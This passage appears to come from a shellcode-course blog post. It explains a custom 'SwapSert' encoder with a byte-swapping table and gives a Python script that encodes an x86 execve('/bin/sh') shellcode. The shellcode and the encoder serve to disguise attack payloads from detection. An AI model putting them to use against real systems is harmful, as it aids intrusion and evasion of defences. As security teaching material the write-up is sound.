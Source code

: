 ## The custom encoder
**SwapSert Encoder**
The idea of this encoder is that it will swap two adjacent bytes and then insert a byte.  The inserted byte in this example will be 0x7f.

### Encoding phase

| Step | Sequence     					| What is happening?                  |
|:---- |:------------------------------ | :---------------------------------- |
| 1    | \x41 \x42 \x43 \x44			| starting bytes                      |
| 2    | \x42 \x41 \x7f \x43 \x44		| swap 1st/2nd bytes and insert byte  |
| 3    | \x42 \x41 \x7f \x44 \x43 \x7f	| swap 3rd/4th bytes and insert byte  |

#### Example of this being done on the first 8 bytes of our shellcode
<img src="{{ site.url }}/assets/img/slae32/04-01.png"/>


**Python script to encode a byte array**
```python
#!/usr/bin/python

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f" \
            b"\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89" \
            b"\xe1\xb0\x0b\xcd\x80"
encoded = ""
encoded2 = ""

print('Encoded shellcode ...')

pos = 0
insert_byte = b"\x7f"
while (pos+1) < len(shellcode):
    encoded += "\\x%02x\\x%02x\\x%02x"
		% (shellcode[pos+1], shellcode[pos], insert_byte[0])
    encoded2 += "0x%02x,0x%02x,0x%02x,"
		% (shellcode[pos+1], shellcode[pos], insert_byte[0])
    pos += 2

if not pos == len(shellcode):
    encoded += "\\x%02x\\x%02x\\x%02x"
		% (insert_byte[0], shellcode[pos], insert_byte[0])
    encoded2 += "0x%02x,0x%02x,0x%02x"
		% (insert_byte[0], shellcode[pos], insert_byte[0])

print("Original: \"" + "".join(map(lambda x: '\\x%02x' % x, shellcode)) + "\"")
print("")
print("Format1: \"" + encoded + "\"")
print("Format2: " + encoded2)

```
